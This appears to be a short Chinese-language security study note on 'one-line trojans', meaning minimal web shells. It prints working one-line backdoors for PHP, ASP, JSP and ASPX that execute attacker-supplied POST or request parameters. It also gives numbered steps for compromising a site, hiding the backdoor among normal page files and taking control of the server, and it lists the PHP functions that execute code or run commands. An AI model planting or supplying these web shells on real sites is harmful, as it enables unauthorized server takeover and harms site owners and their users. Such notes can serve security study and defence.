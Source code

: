 ##### d. 一句话木马

###### ①php

```php
<?php @assert($_POST['cmd']);?>
```

###### ②asp

```asp
<%eval request("cmd")%>
<%execute request("cmd")%>
<%execute(request("cmd"))%>
<%executeGlobal request("cmd")%>
<%eval(Request(chr(35)))%> #ASCII码值
```

###### ③jsp

```jsp
<% @page language="java"
    Runtime.getRuntime().exec(request.getParameter("cmd"));
%>
```

###### ④aspx

```aspx
<%@ Page Language="Jscript"%><%eval(Request.Item["pass"],"unsafe");%>
<%@ Page Language="Jscript" validateRequest="false" %><%Response.Write(eval(Request.Item["pass"], "unsafe"));%>
```

#### (2). 执行

#####  a. 原理

* 利用超全局变量**接受传递的数据**，并将该数据传递给**代码执行函数**进行执行

#####  b. 步骤

1. 入侵网站 
2. 将ASP或PHP等后门文件混入正常网页文件 
3. 通过网页访问后门文件
4. 得到命令执行环境
5. 控制网站服务器

##### c. 相关函数

###### ①PHP执行函数

**eval()、assert()、preg_replace()、create_function()、array_map**、asort、call_user_func()、call_user_func_array()、**array_filter()**

###### ②命令执行函数

**system()、exec()**、popen()、passthru()、**shell_exec()**
